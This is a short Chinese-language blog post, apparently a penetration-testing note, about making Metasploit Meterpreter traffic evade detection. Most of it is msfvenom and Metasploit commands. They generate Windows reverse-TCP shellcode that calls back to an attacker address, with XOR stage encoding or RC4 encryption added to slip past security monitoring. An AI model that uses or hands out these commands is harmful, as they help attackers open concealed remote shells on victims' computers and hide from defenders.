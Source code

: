 ```yaml
---
title: "Meterpreter 流量免杀"
date: 2019-08-04T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['metasploit']
categories: ['bypass','内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


对 meterpreter 流量进行编码或加密, 有两种方式.

<!--more-->

指定编码方式, 名称与对 shellcode 的编码器相同.

```
set EnableStageEncoding true
set StageEncoder x86/xor_dynamic
set StageEncodingFallback false
```

生成 shellcode.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 EnableStageEncoding=true StageEncoder=x86/xor_dynamic StageEncodingFallback=false -f c -o shellcode.c
```

或是直接生成通过 rc4 加密流量的 shellcode.

```
msfvenom -p windows/meterpreter/reverse_tcp_rc4 LHOST=192.168.1.1 LPORT=4444 RC4PASSWORD=exp10it -f c -o shellcode.c
```